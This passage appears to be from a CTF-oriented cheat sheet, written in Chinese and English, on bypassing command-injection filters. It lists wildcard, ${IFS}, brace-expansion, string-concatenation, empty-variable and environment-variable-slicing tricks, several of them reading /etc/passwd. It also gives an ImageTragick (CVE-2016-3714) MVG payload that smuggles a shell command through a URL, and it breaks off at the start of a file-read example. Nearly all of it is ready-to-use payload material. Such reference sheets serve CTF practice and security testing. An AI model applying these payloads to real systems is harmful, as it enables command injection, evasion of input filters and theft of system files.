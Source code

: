 ## ? and *
- `?` match one character
    - `cat fl?g`
    - `/???/??t /???/p??s??`
- `*` match 多個
    - `cat f*`
    - `cat f?a*`

## 空白繞過

- `${IFS}`
    - `cat${IFS}flag`
    - `ls$IFS-alh`
    - `cat$IFS$2flag`
- `cat</etc/passwd`
- `{cat,/etc/passwd}`
- `X=$'cat\x20/etc/passwd'&&$X`
- ``` IFS=,;`cat<<<uname,-a` ```
    - bash only


## Keyword繞過

- String Concat
    - `A=fl;B=ag;cat $A$B`
- Empty Variable
    - `cat fl${x}ag`
    - `cat tes$(z)t/flag`
    
- Environment Variable
    - `$PATH => "/usr/local/….blablabla”`
        - `${PATH:0:1}   => '/'`
        - `${PATH:1:1}   => 'u'`
        - `${PATH:0:4}   => '/usr'`
    - `${PS2}` 
        - `>`
    - `${PS4}`
        - `+`
- Empty String
    - `cat fl""ag`
    - `cat fl''ag`
        - `cat "fl""ag"`

- 反斜線
    - `c\at fl\ag`

## ImageMagick

- CVE-2016-3714 (ImageTragick)
    - `mvg` 格式包含 https 處理(使用 curl 下載)，可以閉合雙引號
    - payload:
    ```mvg
    push graphic-context
    viewbox 0 0 640 480
    fill 'url(https://kaibro.tw";ls "-la)'
    pop graphic-context
    ```
- Example
    - [Google CTF 2019 - GPhotos](https://blog.bushwhackers.ru/googlectf-2019-gphotos-writeup/)
        - `Some Debians appear to have insecure ImageMagick configuration by default`
        - read file:
        ```xml
        <?xml version="1.0" encoding="UTF-8"?>